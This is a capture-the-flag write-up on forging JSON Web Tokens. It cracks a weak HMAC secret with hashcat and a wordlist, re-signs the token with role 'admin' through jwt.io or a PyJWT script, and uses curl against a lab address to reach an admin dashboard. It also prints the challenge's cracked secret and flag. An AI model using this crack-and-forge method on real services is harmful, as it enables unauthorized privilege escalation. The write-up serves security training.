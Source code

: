 # JWT Token Exploitation - CTF Writeup  

## Challenge Overview  
This challenge involved cracking a JWT token using `hashcat` or `john`, modifying it, and gaining access to the admin dashboard. It was a moderately difficult challenge requiring an understanding of JWT signing mechanisms.  

[![1.png](https://i.postimg.cc/pXPMGSFQ/1.png)](https://postimg.cc/xqpZqtgq)  

## Step 1: Registering a User  
First, we register a new user. This account is granted a low-privilege role.  

[![2.png](https://i.postimg.cc/90pKHW7d/2.png)](https://postimg.cc/2L124NTy)  

After registration, we receive a JWT token. A JWT (JSON Web Token) consists of three parts:  

1. **Header** – Defines the signing algorithm (e.g., HMAC-SHA256).  
2. **Payload** – Contains user-specific claims (e.g., username, role).  
3. **Signature** – Ensures integrity, generated using a secret key.  

Example JWT token received:  

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InlhaHlhIiwicm9sZSI6InVzZXIiLCJleHAiOjE3NDI4MTcxNDN9.AbihSj2RSBu1qjcsrQ1gG8Arp0kAfKUHSuBCUSZI7ds
```

Decoding the payload reveals:  

```json
{
  "username": "yahya",
  "role": "user",
  "exp": 1742817143
}
```

The token is signed using HMAC-SHA256, meaning a secret key was used to generate the signature. If we can discover this secret, we can create our own valid tokens.  

---

## Step 2: Cracking the JWT Secret  
Since the token uses **HMAC-SHA256**, the server likely verifies it using a secret key. Our goal is to crack this secret.  

We extract the JWT signature and brute-force it using `hashcat` with the `rockyou.txt` wordlist:  

```bash
hashcat -m 16500 jwt_hash.txt rockyou.txt --force
```

[![3.png](https://i.postimg.cc/wTwZWjHH/3.png)](https://postimg.cc/ZCywnZCD)  

✅ The cracked secret key is: **rednut123_**  

---

## Step 3: Modifying the JWT Token  

Now that we have the secret key, we can modify the token to escalate privileges by changing the role from `user` to `admin`.  

### Method 1: Modifying via JWT.io  
1. Go to [JWT.io](https://jwt.io/).  
2. Paste the original token.  
3. Modify the payload:  

```json
{
  "username": "yahya",
  "role": "admin",
  "exp": 1742817899
}
```

4. Re-sign the token using the secret **rednut123_**.  
5. Copy the newly generated token.  

[![4.png](https://i.postimg.cc/KjJqsJ6Q/4.png)](https://postimg.cc/kRRv2FXt)  

---

### Method 2: Generating a New JWT with Python  
We can also programmatically generate a new token using Python and `PyJWT`:  

```python
import jwt

header = {"alg": "HS256", "typ": "JWT"}
payload = {"username": "yahya", "role": "admin", "exp": 1742817899}
secret = "rednut123_"

new_token = jwt.encode(payload, secret, algorithm="HS256", headers=header)
print(new_token)
```

Running this script generates a valid **admin-level JWT token**.  

[![5.png](https://i.postimg.cc/fLs8zGZB/5.png)](https://postimg.cc/NyN6bPKH)  

---

## Step 4: Accessing the Admin Dashboard  

With our new JWT, we can now authenticate as an **admin**.  

Using `curl`, we send a request with the modified token:  

```bash
curl -H "Authorization: Bearer <NEW_ADMIN_JWT>" http://192.168.11.112:8000/admin
```

[![6.png](https://i.postimg.cc/MZd9w3Lm/6.png)](https://postimg.cc/JtHNcxMs)  

✅ **Admin access granted!**  

---

## Conclusion  

We successfully bypassed authentication by exploiting the weak JWT secret. This challenge demonstrated:  

- How to decode and analyze a JWT token.  
- Brute-forcing weak secrets with `hashcat`.  
- Crafting a new JWT to escalate privileges.  

### 🔥 **Flag:**  
```
CSP{Js0n_W3b_T0k3n5_Cracking_M4st3r_}
```


